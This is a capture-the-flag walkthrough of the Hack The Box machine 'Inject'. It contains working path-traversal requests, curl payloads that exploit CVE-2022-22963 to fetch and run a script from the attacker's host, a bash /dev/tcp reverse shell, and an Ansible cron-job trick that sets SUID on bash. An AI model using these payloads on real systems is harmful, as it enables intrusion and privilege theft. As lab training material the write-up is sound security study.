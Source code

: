 ```yaml
---
title: Inject 
date: 2023-03-14 14:02
categories: [HTB,CTF]
tags: [htb]
---
```


# Enumeration

## Rustscan

```bash
sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a 10.129.54.43 -- -sV -sC -oA ./{{ip}}
```

### Ports

```bash
Open 10.129.54.43:22
Open 10.129.54.43:8080
```

### Services

```bash
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca syn-ack ttl 63 Nagios NSCA
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

The website itself is described as **Zodd Cloud** which is a place to store, share and collaborate on files and folders.  
There's not much to the page itself, the registration is disabled and the login button is a dead end.  

But there's and upload button wich will take you to a page where you are able to upload files.  

# Foothold

## Exploitation

### Upload: LFI & Directory Listing

As always I let Burp run in the background and browse the page, click on everything and check what I got in Burp.  
After uploading an image I already noticed the URL which looked like a typical target for a LFI.  

URL: **/show_image?img=cat.png**

And as I thought I was able to verify it's vulnerable to LFI and even lists directories!  
But you would have to either use curl or Burp to see the results as the Webapp tries to display the response as Image.  

#### Display: /etc/passwd

```http
GET /show_image?img=../../../../../../etc/passwd HTTP/1.1
Host: 10.129.54.43:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf
```

```bash
...
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
...
```

#### Display: /etc/systemd/system/webapp.service

```http
GET /show_image?img=../../../../../../../etc/systemd/system/webapp.service HTTP/1.1
Host: 10.129.54.43:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf
```

```bash
[Unit]
Description=Spring WEb APP
After=syslog.target

[Service]
User=frank
Group=frank
ExecStart=/usr/bin/java -Ddebug -jar /var/www/WebApp/target/spring-webapp.jar
Restart=always
StandardOutput=syslog
StandardError=syslog

[Install]
WantedBy=multi-user.target
```

### Inspect: spring-webapp.jar

First I downloaded the webapp which I discovered previously.  

```bash
wget http://10.129.54.43:8080/show_image?img=../../../../../../var/www/WebApp/target/spring-webapp.jar -O spring-webapp.jar
```

Let's inspect the application using [JD-GUI](http://java-decompiler.github.io/)  
First thing I did go for was to find the pom.xml which can hold juicy infos  

```xml
...
<dependency>
	<groupId>org.springframework.cloud</groupId>
	<artifactId>spring-cloud-function-web</artifactId>
	<version>3.2.2</version>
</dependency>
...
```

### RCE and Shell

Using the information gathered in the app itself I was able discover that it was affected by **CVE-2022-22963**.  
You can find more infos about it [HERE](https://spring.io/security/cve-2022-22963)

Prepared a shellscript that simply setups a connection back to my machine

```bash
#!/bin/bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.139/53 0>&1'
```

```bash
# Setup listener
pwncat-cs -lp 53
# Start http.server
python -m http.server 80
# Shell: Get rev.sh
curl -i -s -k -X 'POST'  --data-raw 'data' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget 10.10.14.139/rev.sh -O /tmp/rev.sh")' 'http://10.129.54.43:8080/functionRouter'
# Shell: Execute rev.sh
curl -i -s -k -X 'POST'  --data-raw 'data' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("/bin/bash /tmp/rev.sh")' 'http://10.129.54.43:8080/functionRouter'
```

### From Frank to Phil

While looking around I discovered a folder called **.m2** in franks home directory. That folder contained a **settings.xml** which included credentials for the user account of phil.  

```bash
su - phil
```

### Flag

The flag is located in **/home/phil**

# Escalation

## Local Enumeration

User Phil is member of the group **staff** which could be interesting.  

```bash
id
```

```bash
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

Let's see if that group has access to something special  

```bash
find / -group staff 2>/dev/null
```

```bash
...
/opt/automation/tasks
/var/local
/usr/local/lib/python3.8
/usr/local/lib/python3.8/dist-packages
/usr/local/lib/python3.8/dist-packages/ansible_parallel.py
...
```

Using pspy I discovered a cronjob that seems to run every 3 minutes and executes **ansible-parallel** on directory **/opt/automation/tasks**

```bash
2023/03/14 23:18:01 CMD: UID=0    PID=5684   | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml 
```

## Exploitation

Ansible Parallel is used to run multiple playbooks on the same time. So I guessed that the cronjob is doing something like

```bash
/usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/*
```

Easiest way to abuse that can be seen on [gtfobins](https://gtfobins.github.io/gtfobins/ansible-playbook/)

```bash
echo '[{hosts: localhost, tasks: [shell: /usr/bin/chmod +s /bin/bash]}]' >> /opt/automation/tasks/escalate.yml
```

Wait for three minutes and you should see something like this

```bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

## Root

```bash
bash -p
```

The flag is then located in **/root**